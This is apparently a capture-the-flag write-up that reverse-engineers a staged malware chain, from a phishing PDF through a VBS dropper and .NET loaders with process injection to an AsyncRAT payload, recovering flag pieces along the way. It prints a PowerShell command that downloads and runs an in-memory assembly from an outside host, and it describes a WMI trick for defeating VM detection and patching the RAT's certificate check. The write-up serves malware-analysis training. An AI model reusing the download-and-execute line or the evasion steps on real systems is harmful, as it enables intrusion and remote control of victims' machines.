

# PDF

Opening the PDF, there is a link at the bottom.


`hxxp://192.168.100[.]100/microsoft/get-offer/`

# Payloads

There were multiple payloads hosted on the webserver. They are in a password protected zip (password: `infected`), as they behave like malware.

[payloads.zip](workdir/payloads.zip)

# Link

Opening the `get-offer` link downloads the [payloads.zip\Job_Offer.pdf.uue.bin](workdir/payloads.zip) file as `Job_Offer.pdf.uue`. It is actually a rar file, and contains `Job_Offer.pdf.vbs`.

# VBS

Using procmon, or replacing the `WWUP.Run` part reveals that it is running a powershell payload.

```cmd
%comspec% /c powershell.exe "[Byte[]] $rOWg = [system.Convert]::FromBase64string((New-Object Net.WebClient).DownloadString('http://192.168.100.100/msb/update.txt'));[system.Reflection.assembly]::Load($rOWg).GetType('fiber.Home').GetMethod('VAI').Invoke($null, [object[]] ('0-.<AQ?&x-*@0-.<AQ.a-+qq]x)D7%{*(11_=qw0]]53^iqB7%cq(^7X>.`!]{*(11_=qC.lM9`~CH-+qq]x)00cq(^7X>.`!].00cq(^7X>.`!].86cq(^7X>.`!].(^7X>.9cq(^7X>.`!]-+qq]x)-+qq]x)((:-+qq]x)02-p0-.<AQ0-.<AQ.z)*|?'))"
```

# Powershell

The powershell payload is downloading `hxxp://192.168.100[.]100/msb/update.txt` base64 encoded dotnet dll and loads it as assembly, then calling `fiber.Home.VAI` method to decode and run the next stage. 

# fiber.dll

The [dnSpyEx](https://github.com/dnSpyEx/dnSpy) can be used for decoding the script.


It is copying the active VBS file into the temp folder and downloading 2 more files.

The url parameter from the previous step is decoded by reversing it and doing a bunch of replaces: `hxxp://192.168.100[.]100/HCSC_1%7BN0w_%7D/a.txt`. This is the first part of the flag (`HCSC_1{N0w_}`). The file is reversed and base64 decoded afterwards.

The second url is hardcoded and just reversed: `hxxp://192.168.100[.]100/teams/schema.xml`. The file has some replacement and the it is base64 decoded as well.

The decoded `schema.xml` is another dotnet dll that, it is loaded, and the `fsociety.Tools.Ande` method is called with `C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe` and the decoded `a.txt`.

There is also a call to `Optical.startup` at the end.


This is dropping some persistency lnk file in the startup folder, with the 4th part of the flag in the description (`HCSC_4{3vRyThlNg!!1}`).

# Efsociety.dll

Following the function, it is calling `RunHandle` and then `HandleRun`.

It is essentially starting the passed `RegSvcs.exe` and injecting the passed block of memory into the process, taking it over. It was yet an another dotnet executable.

There is a variable at the start that contains the second part of the flag (`HCSC_2{y0U_t0TallY_4r3_}`).


# AsyncRAT

The executable is obfuscated. It can be ran standalone as well, the entry point is at `xWNkwSBQveQBO.vSmzaqyhqvbwx.Main`. The 3rd part of the flag is right there at the start (`HCSC_3{aDm1nnn_0F_}`).



# Flag
`HCSC{N0w_y0U_t0TallY_4r3_aDm1nnn_0F_3vRyThlNg!!1}`

# Bonus

Unfortunately the lnk part was not found at first, and there was significantly more time invested in the reversing of the obfuscated binary :)

The dnSpy can also debug and patch the application. 

## VM detection

There are some VM detection. The check for `Win32_ComputerSystem` can be patched out, but I usually prefer not tampering the binary, not to trigger some anti tampering part if there is an easy solution.

Creating a [.mof](workdir/test.mof) file and loading with [mofcomp](https://learn.microsoft.com/en-us/intune/configmgr/develop/osd/how-to-create-a-mof-file-for-a-configuration-manager-custom-action) can override this.

```
#PRAGMA AUTORECOVER
#pragma namespace ("\\\\.\\root\\CIMv2")

class Win32_ComputerSystem
{
    [key]
    string Manufacturer;
};

[DYNPROPS]
instance of Win32_ComputerSystem
{
    Manufacturer = "deathbaron.org";
};
```


## Configuration

The configuration is decoded in `xWNkwSBQveQBO.IRGpljjxetb.FaZxEMhgSUVh`. Stopping there can uncover the configuration.


## Source code

After uncovering some configuration strings (especially the certificate), I found the [AsyncRAT](https://github.com/NYAN-x-CAT/AsyncRAT-C-Sharp) project. Using the source code next to the obfuscated one greatly improved the reversing. 

## Server

Firing the server side of the AsyncRAT on the configured host `127.0.0.1` and ports `6606,7707,8808` and patching the certificate check on the binary (`pjbFLayXYYYYin.GzJsjMJgIiLI.CojCfpVsTbtt` from `RemoteCertificateValidationCallback`) works.


## No flag

Unfortunately there was no more flag hidden in this rabbit hole.